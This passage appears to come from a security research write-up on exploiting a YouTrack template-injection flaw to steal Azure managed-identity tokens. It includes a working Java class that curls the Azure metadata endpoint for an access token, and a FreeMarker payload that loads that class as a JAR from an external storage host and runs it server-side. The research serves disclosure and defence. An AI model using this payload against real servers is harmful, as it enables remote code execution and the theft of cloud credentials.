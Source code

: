```
This request asks the metadata endpoint for the access token to the Azure Resource Manager API. Notice that there are several Microsoft APIs for which I could request tokens, for example, the Graph API for Azure Active Directory (` https://graph.microsoft.com`), the Azure Vault API (`vault.azure.net`), etc.

The caveat about the request above is that it requires a specific header (`Metadata:true`), which ensures that SSRF attacks are mitigated (following the same pattern as IMDSv2). This essentially means that other attack paths may be required. In this specific case, I will use the remote code execution exploit from YouTrack to inject Java code and run it server-side.

Let us first describe the code snippet I will use to query the metadata endpoint. I have created a class called `JavaCurl` and added a `getMetadataCredentialsARM` function:  

```java
public static String getMetadataCredentialsARM () {
	ProcessBuilder pb = new ProcessBuilder();
	pb.command("curl", "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com", "-H", "Metadata:true");
	StringBuilder out = new StringBuilder();
	try {
		Process p = pb.start();
		BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
		String line;
		while ((line = reader.readLine()) != null){
			out.append(line);
			out.append("\n");
		}
		int exitCode = p.waitFor();
		System.out.println("\nExited with error code: "+ exitCode);
	} catch (IOException e){
		e.printStackTrace();
	} catch (InterruptedException e) {
		e.printStackTrace();
	}
	return out.toString();
}	

```     
Above, I am using a ProcessBuilder object to create a cURL call that adds the required headers to the request. Using this code I can then use the following payload to load it in YouTrack:

```
<#assign classloader=article.class.protectionDomain.classLoader> 
<#assign urls=classloader.getURLs()> 
<#assign url=urls[0].toURI().resolve("https://storageacc81d4236.blob.core.windows.net/storagecontba6437f1/JavaCurl.jar").toURL()> 
<#assign urlt=[url]> 
<#assign payloadClassloader=classloader.newInstance(urls+urlt)> 
<#assign curl=payloadClassloader.loadClass("JavaCurl")> 
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")> 
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)> 
${dwf.newInstance(curl,null).getMetadataCredentialsARM()}
``` 
